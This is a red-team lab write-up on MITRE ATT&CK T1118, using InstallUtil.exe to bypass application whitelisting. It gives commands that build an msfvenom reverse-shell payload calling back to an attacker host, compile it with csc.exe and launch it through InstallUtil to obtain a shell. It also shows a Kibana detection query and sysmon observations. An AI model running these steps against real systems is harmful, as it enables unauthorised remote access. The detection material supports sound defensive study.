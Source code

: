 ```yaml
---
description: InstallUtil code execution - bypass application whitelisting.
---
```


# T1118: InstallUtil

## Execution

First of, let's generate a C\# payload \(with [InstallUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Compile the .cs to an .exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Execute the payload:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Enjoy the sweet reverse shell:

![](../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% code-tabs %}
{% code-tabs-item title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![InstallUtil launching the malicious payload](../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

{% hint style="danger" %}
Will be coming back to this one for further inspection - possibly related to sysmon configuration.
{% endhint %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1118" %}

{% embed url="https://github.com/khr0x40sh/WhiteListEvasion" %}

